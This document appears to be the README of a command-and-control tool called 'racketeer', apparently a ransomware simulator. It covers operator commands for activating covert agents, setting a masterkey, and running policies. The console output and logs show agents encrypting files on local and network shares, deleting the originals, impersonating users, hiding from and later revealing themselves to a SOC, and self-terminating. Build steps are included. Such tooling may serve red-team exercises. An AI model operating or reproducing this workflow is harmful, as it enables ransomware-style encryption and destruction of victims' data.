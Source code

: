 # Base

## Protocol
- 2-way Command JSON
- HTTP/HTTPs for now
- Agent pub sub.
- Agent jitter
- Hot reloading of connectivity endpoints

## Operation

```
$ runbase
```

List checked in agents:
- Active : accepted for interaction
- Pending: not yet accepted for interaction

```
no agent: > activate
Agent (active):

Agents (pending):
2e1bb2f0-c20a-4eb6-baa4-18832af621c2 2021-02-21 12:02:55.9616266 -0600 CST
```

Activate agent content
```
no agent: > activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
```

Get agent info 
```
no agent:activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2 > heartbeat
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
        Host: 555-LT-X0874 / 555-LT-X0874, PID: 25216 (A:false), User: NA\user01
```

Set agent log verbosity
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs set debug
```

Set policy masterkey
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > masterkey
? Please type your masterkey [? for help] *******
masterkey:  *******
? OK to send? Yes
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:masterkey > 
```

Policy load and run
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > polexec
? Choose source of payload: file                                 
? file to get payload from: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
Processing paylaod from file: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:polexec > 
```

Get run summary 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > summary
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
Execution Report for Site ID 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
{
  "SiteId": "2e1bb2f0-c20a-4eb6-baa4-18832af621c2",
  "HostTaskSummaries": [
    {
      "HostIdent": "HostA",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\Users\\user01\\Downloads\\Share\\file5.log",
          "PostImageName": "\\Users\\user01\\Downloads\\Share\\file5.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "BA0D750160BB0ED0136BC1F5E35B3083ABB1B2107560580325F76C43141F925F",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:11 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "X:\\file6.log",
          "PostImageName": null,
          "PreImageHash": "",
          "PostImageHash": null,
          "PreImageSize": 0,
          "PostImageSize": 0,
          "ImageTime": null,
          "SymKey": null,
          "Operation": 1
        }
      ]
    },
    {
      "HostIdent": "HostB",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file1.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file1.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "EA5977B74BDA7AC327458618807BAFF3F2CA605BCC7EAA1303F7175E645104FC",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:12 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file2.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file2.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "CFAAD8CD63AD995A9647053F3C5211A90C39DE55DD405937813F745A4DA0C3A2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:13 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file4.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file4.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "20FCE8E8F624DECB7592487EEEA9D238D9E314A28E99E6B560ED568445D776C2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:14 PM",
          "SymKey": null,
          "Operation": 1
        }
      ]
    }
  ]
}
```

Get Logs 
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs get
Getting logs ...

2021.02.21 12:06:10.684 Debug   Loading config from network
2021.02.21 12:06:10.684 Debug   Deserializing config
2021.02.21 12:06:10.693 Debug   Config tree populated
2021.02.21 12:06:10.695 Debug   Loading configuration tree
2021.02.21 12:06:10.695 Debug   MasterKey: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL, SiteID: 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
2021.02.21 12:06:10.695 Debug   Mapping hosts to authentication
2021.02.21 12:06:10.743 Debug   MasterKeyHash: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL
2021.02.21 12:06:10.743 Debug   Iterating over hosts
2021.02.21 12:06:10.743 Debug
 [[ Entering host : HostA (555-LT-X0874) ]]
2021.02.21 12:06:10.743 Debug   Auth: Local
2021.02.21 12:06:10.743 Debug   Building local user impersonation NetworkCredential
2021.02.21 12:06:10.743 Debug   Iterating over files in host
2021.02.21 12:06:10.753 Debug   Encrypting \Users\user01\Downloads\Share\file5.log => \Users\user01\Downloads\Share\file5.log.enc key: 9993c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:10.754 Debug   Encrypting file \Users\user01\Downloads\Share\file5.log -> \Users\user01\Downloads\Share\file5.log.enc
2021.02.21 12:06:10.754 Debug   File \Users\user01\Downloads\Share\file5.log found
2021.02.21 12:06:11.705 Error   File X:\file6.log not found
2021.02.21 12:06:11.705 Debug   Unable to properly encrypt file: X:\file6.log
2021.02.21 12:06:11.705 Debug
 [[ Entering host : HostB (555-LT-X0874) ]]
2021.02.21 12:06:12.239 Debug   Derived Key: 0D-BE-C1-99-9E-D9-45-D4-BB-C9-4C-D4-83-2E-50-8A-C8-3A-9B-E3-D8-A7-BD-C9-56-66-8A-93-87-67-71-64
2021.02.21 12:06:12.688 Debug   Wrote salt 32-0D-E6-F0-6F-EA-E1-76-FA-1C-1C-E8-96-E8-49-89-7B-B4-06-AF-4C-85-D1-51-49-E5-C8-86-91-E6-C3-DA of size: 32
2021.02.21 12:06:12.702 Debug   Flushed final block
2021.02.21 12:06:12.709 Debug   Encryption routine success
2021.02.21 12:06:12.709 Debug   Deleting original file \\555-LT-X0874\Share\file1.log
2021.02.21 12:06:12.718 Debug   Encrypting \\555-LT-X0874\Share\file2.log => \\555-LT-X0874\Share\file2.log.enc key: 6fd3c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:14.613 Debug   Built networkPath as \\555-LT-X0874
2021.02.21 12:06:15.095 Debug   Decrypted credentials
2021.02.21 12:06:15.096 Debug   Building supplied user impersonation NetworkCredential
2021.02.21 12:06:15.096 Info    Connecting to \\555-LT-X0874
2021.02.21 12:06:15.105 Error   Win32Exception: (0): Cannot connect to System.ComponentModel.Win32Exception (0x80004005): Error connecting to remote share
   at FileConnector.ConnectToSharedFolder..ctor(String networkName, NetworkCredential credentials) in C:\Users\user01\source\repos\FileConnector\FileConnector\Driver.cs:line 67
   at FileConnector.ServerTasks.Impl.TaskRunPolicy.Run() in C:\Users\user01\source\repos\FileConnector\FileConnector\ServerTasks\TaskImpl\TaskRunPolicy.cs:line 142:
2021.02.21 12:06:15.106 Debug   Sleeping for 5000
2021.02.21 12:06:30.182 Debug   => Resource /summary , method: Post
2021.02.21 12:06:30.183 Debug   Sleeping for 5000
```

Reveal agent to SOC
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide console
Unhiding console ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide console > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide message
Unhiding message ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
```
Terminate remote agent 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > agent self terminate
? Sure terminate agent? This is irreversible. Yes
```

## Examples (Runtime)
- [Agent running](../images/agent-running.png)
- [Agent clear memory logs](../images/agent-clear-remote-memory-0buffer-logs.png)
- [Agent send policy summary](../images/agent-sent-policy-output.png)
- [Agent set masterkey on policy](../images/agent-set-masterkey.png)
- [Agent self termination](../images/agent-terminated.png)
- [Agent reveals presence after encryption](../images/agent-unhide-message.png)
- [Agent up verbosity level](../images/agent-up-verbosity-memory.png)
- [Asset encryption](../images/asset-encrypted.png)
- [Agent embedded policy - lights out](../images/embed-policy.png)
- [Operator help system](../images/predictive-command-help.png)

# Dev/Build


`cd racketeer\RNS; set GOPATH=/path`
`go get -d ./...`
`go build -o bin\server.exe`
